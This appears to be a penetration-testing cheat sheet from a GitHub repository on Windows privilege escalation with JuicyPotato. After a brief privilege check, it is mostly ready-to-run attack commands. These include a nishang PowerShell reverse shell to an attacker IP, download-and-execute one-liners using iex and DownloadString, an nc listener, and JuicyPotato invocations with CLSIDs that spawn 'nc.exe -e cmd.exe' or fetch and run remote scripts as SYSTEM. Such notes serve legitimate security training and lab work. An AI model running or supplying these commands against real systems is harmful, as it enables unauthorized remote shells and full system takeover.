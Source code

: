 ## <span style="color:lightgreen">Detection</span>


### Windows VM

1. We should have `SeImpersonatePrivilege` privileges enabled
```console
C:\Temp>whoami /priv
```
![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/34cc6333-eed0-4a6e-9c1e-1b71acb87944)


##  <span style="color:lightgreen">Exploitation</span>

### Kali VM
1. Copy `Invoke-PowerShellTcp.ps1` from [nishang](https://github.com/samratashok/nishang/tree/master/Shells) shells as `shell.ps1`
2. Add the line at the bottom of `shell.ps1`
```console
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.31 -Port 9999
```

3. Lets create a `shell.bat` file
```console
powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.31/shell.ps1')
```

4. Transfer `shell.bat` and `juicypotato.exe` on victim machine
```console
$ (new-object net.webclient).downloadfile('http://10.10.14.31/file', 'C:\temp\file')
```

5. Set a listener on port 9999
```console
$ sudo rlwrap nc -lnvp 9999
```

### Windows VM

+ Use CLSID depending upon the system version and select the CLSID which supports NT AUTHORITY\SYSTEM
+ Link --> [http://ohpe.it/juicy-potato/CLSID](http://ohpe.it/juicy-potato/CLSID)

2. run juicy potato
```console
$ ./jp.exe -p shell.bat -l 7777 -t * -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}"
#OR
JuicyPotato -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe 10.10.10.12 443" -t *
#OR
juicypotato.exe -l 1337 -p c:\windows\system32\cmd.exe -t * -c {CLSID of your windows machine}
#OR
.\jp.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8080/ipst.ps1')" -t *
```
